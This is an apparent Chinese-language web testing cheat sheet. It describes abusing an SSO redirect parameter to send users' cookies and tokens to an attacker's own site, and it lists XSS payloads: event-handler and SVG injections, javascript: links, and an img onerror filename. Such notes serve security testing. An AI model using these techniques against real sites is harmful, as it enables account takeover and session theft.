 ## sso统一登陆测试点
sso统一登陆，累似下面：
`https://www.xxxx.com/sso.php?redirect=https://2.xxxx.com/xxxx.php`
1. 尝试修改后面的url进行伪造
`https://www.xxxx.com/sso.php?redirect=https://自己的站/xxxx.php`
> ⚠️任何重定向都有可能存在漏洞
并且我们在自己的站里实时接收任何post或者get数据（cookie,token）等等,用户通过这个链接只要登陆了，你就能获取到对应token，实现登陆它的账号。
2. 直接访问后面的URL
`https://2.xxxx.com/xxxx.php`
根据提示的错误，缺少数据等，在post或者get请求参数中添加这个参数，值随便写进行测试。
返回包会显示appid=xxxx，secert=xxxx等一些敏感信息，使用对应的api文档进行访问，就可以获取权限了

## XSS姿势
1. 尖括号被转义绕过
尝试利用事件执行xss，这里我主要采用与用户接口(鼠标、键盘)相关的事件，如click、mouseover等：
```html
<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>
```
2. svg插入xss
```html
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<rect width="300" height="100" onmouseover="alert(/xss/)" style="fill:rgb(0,0,255);stroke-width:3;strcke:rgb(0,0,0)">
</svg>

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;strcke:rgb(0,0,0)">
		<script>alert(/xss/)</script>
</svg>
```
3. 所有配置超链接的地方
使用www.baidu.com 测试是否可以重定向，然后url配置为`javascript:alert('xss');`
4. 文件上传
上传文件的名称改为 `<img src=1 onerror=alert(document.domain)>` 上传后后去访问文件
